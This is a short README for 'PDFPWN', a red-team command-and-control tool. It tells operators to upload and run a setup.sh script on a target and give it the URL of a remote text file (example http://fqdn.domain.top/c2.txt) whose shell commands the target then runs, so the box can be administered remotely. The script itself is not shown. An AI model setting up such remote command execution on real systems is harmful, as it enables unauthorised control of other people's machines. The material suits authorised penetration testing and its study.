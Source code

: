 #PDFPWN

AUTHOR: monty

PURPOSE: Provide Red Team Operators and Pentesters a way to "passively" run a C2 campaign with minimal tools and interaction

FILES:
- README.md - ...
- setup.sh - the magic shell file

REQUIREMENTS:
- Your own C2 server to host the files containing C2 commands (tested with webservers)
- The target must be able to access the C2 server
- C2 server must contain a public facing text file containing shell commands to be executed on the target

USAGE:
- Upload setup.sh to target
- Run setup.sh (chmod +x setup.sh && ./setup.sh) and provide the full URL to the file containing the C2 commands (e.g. http://fqdn.domain.top/c2.txt)
- Administer the target box remotely by changing the contents of "c2.txt"

NOTES:
- Changing the name of the file containing C2 commands or where it is in the directory structure will render any existing C2 connections *inoperable* until either
-- The change is reverted or
-- The setup script is re-run with the updated URL
